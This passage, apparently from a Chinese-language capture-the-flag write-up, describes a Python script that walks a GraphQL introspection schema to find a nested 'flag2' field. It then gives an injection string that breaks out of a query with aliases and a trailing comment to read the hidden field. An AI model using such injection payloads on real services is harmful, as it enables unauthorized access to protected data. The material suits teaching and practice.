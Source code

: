 ![](graphql.webp)

用程序搜索flag2字段在哪里。

```py
schema = [{'fields': [{'name': 'ok', 'type': {'name': None}}, ...  # 从页面上复制
h = {t["name"]: t for t in schema}
p = []
def f(fields):
	for field in fields or ():
		p.append(field["name"])
		if field["name"] == "flag2":
			print("{".join(p) + "}" * (len(p) - 1))
			exit()
		f(h[field["type"]["name"]]["fields"])
		p.pop()
f(h["Secret"]["fields"])
```

最后用找到的路径再次查询。

```
"){login:secret{ok:__typename username:secret_YITI{secret_04QW{secret_w58L{secret_coRR{secret_rIM7{secret_3veu{secret_I5Zm{flag2}}}}}}} isAdmin:__typename}x:#
```



## EzMCP
